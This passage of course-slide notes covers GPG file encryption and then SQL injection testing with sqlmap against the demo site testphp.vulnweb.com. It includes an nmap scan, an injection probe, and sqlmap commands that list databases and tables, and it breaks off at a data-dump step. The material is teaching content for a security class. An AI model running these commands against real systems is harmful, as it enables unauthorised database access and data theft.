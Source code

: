       # Decrypt an encrypted file
      gpg --decrypt <encrypted-file>
      ```
11. **Use Cases & Best Practices**  
    - Encrypting MySQL backups before archiving or transferring off-site.  
    - Secure file-sharing workflows:  
      - Generating a new keypair per user.  
      - Keeping private keys offline.  
      - Rotating keys periodically.

---

### 3. SQL Injection Testing using SQLmap
1. **Title Slide & Course Context**  
   - “SQL Injection Testing using SQLmap”  
   - Database Security (ITMS-528-01), Illinois Institute of Technology, Department of Information Technology and Management.  
   - Contributors: Bhargava Reddy Kikkura, Bharath Kumar Uppala, Hari Kiran Gaddam, Bharath Viswa Teja, Vidya Charan Maddala, Rajabinandhan Periyagoundanoor Gopal. :contentReference[oaicite:1]{index=1}
2. **Scouting the Target Website**  
   - Identifying a live, vulnerable endpoint:  
     ```
     http://testphp.vulnweb.com/listproducts.php?cat=1
     ```  
   - Testing URL parameter injection:  
     ```
     http://testphp.vulnweb.com/listproducts.php?cat='
     ```
3. **Using Nmap on the Target**  
   - Running Nmap to enumerate open ports or services (e.g., HTTP, database ports) before running sqlmap.  
   - Command example (scan flags may vary):  
     ```bash
     nmap -sV testphp.vulnweb.com
     ```
4. **Enumerating Databases with sqlmap**  
   - Basic command to fetch database names:  
     ```bash
     sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
     ```  
   - Example result:  
     ```
     acuart  
     information_schema
     ```
5. **Extracting Table Names**  
   - Using `-D` to specify the database and `--tables` to list all tables:  
     ```bash
     sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
     ```  
   - Example tables in `acuart`:  
     ```
     Artists  
     Carts  
     Categ  
     Featured  
     Guestbook  
     Pictures  
     products  
     users
     ```
6. **Dumping All Table Data**  